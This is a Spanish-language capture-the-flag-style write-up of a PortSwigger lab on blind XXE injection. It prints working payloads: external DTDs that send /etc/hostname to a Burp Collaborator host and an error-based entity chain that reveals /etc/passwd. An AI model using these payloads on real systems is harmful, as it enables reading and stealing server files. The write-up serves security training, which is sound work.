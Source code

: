 ```yaml
---
title: "Exploiting blind XXE to retrieve data via error messages"
description: "Laboratorio de Portswigger sobre XXE Injection"
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger Labs
  - XXE Injection
tags:
  - Portswigger Labs
  - XXE Injection
  - Exploiting blind XXE to retrieve data via error messages
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` tiene una `función` de `Check stock` que analiza entradas en `formato XML`, pero `no muestra` el `resultado`. Para resolver el laboratorio, hay que utilizar un `DTD externo` para `provocar` un `mensaje` de `error` que `muestre` el `contenido` del archivo `/etc/passwd`. El laboratorio incluye un enlace a un `servidor` de `exploits` en un dominio diferente donde podemos alojar un `DTD malicioso`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-6/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-6/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-6/image_3.png)

`Enviamos` una `petición` con un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE` pero la `web` con `responde` con un `mensaje` de `Entities are not allowed for security reasons`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este `dominio` obtenido lo vamos a usar para construir este `payload`, el `%` sirve para `llamar` a la `entidad` desde el `DTD` creado

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`, lo cual quiere decir que ya tenemos un `XXE out-of-band interaction`

![](/assets/img/XXE-Injection-Lab-6/image_4.png)

Al `enviar` la `petición` obtenemos una `respuesta` que `refleja` un `error`

![](/assets/img/XXE-Injection-Lab-6/image_5.png)

Lo que podemos hacer ahora que hemos confirmado que podemos `cargar` un `recurso` del `servidor externo` es pulsar en `Go to exploit server`, introducir este `payload` en la parte de `Body` y pulsar sobre `Store` para almacenarlo. Esto `&#x25` es `%` pero en `hexadecimal`, se debe poner así y no en el formato normal para que funcione correctamente

```
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m?content=%file;'>">
%eval;
%exfil;
```

Lo siguiente que debemos hacer es irnos a donde pone `Craft response`, copiar la url `https://exploit-0aa200cb045beea1d8e97fad01f20055.exploit-server.net/exploit` y `enviar` la `petición`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0ad700d403aa94da80ea66ed01e5007e.exploit-server.net/exploit"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Ahora nos vamos a `Burpsuite Collaborator`, pulsamos en `Resquest to Collaborator` y vemos el `/etc/hostname`

![](/assets/img/XXE-Injection-Lab-6/image_6.png)

Sin embargo, no nos pide el `/etc/hostname`, lo que nos pide es el `/etc/passwd` y mediante el método anterior no podemos obtenerlo debido a que tiene más de una línea. Podríamos usar este `payload` pero `no funciona` el `wrapper` de `php` que `encodea` en `base64`

```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com?content=%file;'>">
%eval;
%exfil;
```

Debido a que cada vez que enviamos una petición `obtenemos` un `mensaje` de `error` podemos `exfiltrar data` mediante este `mensaje` de `error`. Lo primero es `craftearnos` un `entity` que `cargue` el `/etc/passwd` y luego otro `entity` que `cargue` un `archivo inexistente` provocando así un `error`

```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///noExiste/%file;'>">
%eval;
%exfil;
```

`Enviamos` nuestra `petición` a nuestro `servidor` donde se encuentra el `exploit`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0ad700d403aa94da80ea66ed01e5007e.exploit-server.net/exploit"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

El `servidor` nos `muestra` en el `error` el `/etc/passwd`

![](/assets/img/XXE-Injection-Lab-6/image_7.png)
